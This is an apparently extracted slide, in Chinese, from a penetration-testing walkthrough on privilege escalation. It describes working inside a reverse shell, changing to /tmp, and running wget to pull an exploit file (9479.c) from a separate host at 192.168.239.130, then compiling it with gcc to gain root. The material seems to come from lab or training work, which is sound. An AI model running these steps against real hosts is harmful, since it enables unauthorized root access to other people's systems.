

提升權限
將exploit下載到目標主機上，並且使用gcc編譯，並且執行取得root
在反向shell中
移動到/tmp上執行
cd /tmp
wget http://192.168.239.130/9479.c
34